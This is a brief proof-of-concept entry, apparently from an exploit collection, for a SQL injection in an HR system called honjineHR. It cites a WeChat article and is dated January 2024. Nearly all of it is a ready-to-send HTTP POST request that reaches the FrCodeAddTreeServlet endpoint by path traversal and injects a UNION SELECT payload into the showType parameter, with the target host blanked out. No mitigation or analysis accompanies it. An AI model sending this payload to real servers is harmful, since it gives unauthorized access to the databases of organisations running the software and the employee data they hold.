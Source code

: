 # honjineHR_FrCodeAddTreeServlet_sqli
from:  https://mp.weixin.qq.com/s/LS6IDk4pwgg951WHuG5csA
2024/1/29 @2
```
POST /templates/attestation/../../servlet/FrCodeAddTreeServlet HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 171

params=&issuperuser=&parentid=&privType=&manageprive=&action=&target=&showType=1%27+UNION+ALL+SELECT+%40%40version%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL--+&treetype=&orgtype=
```
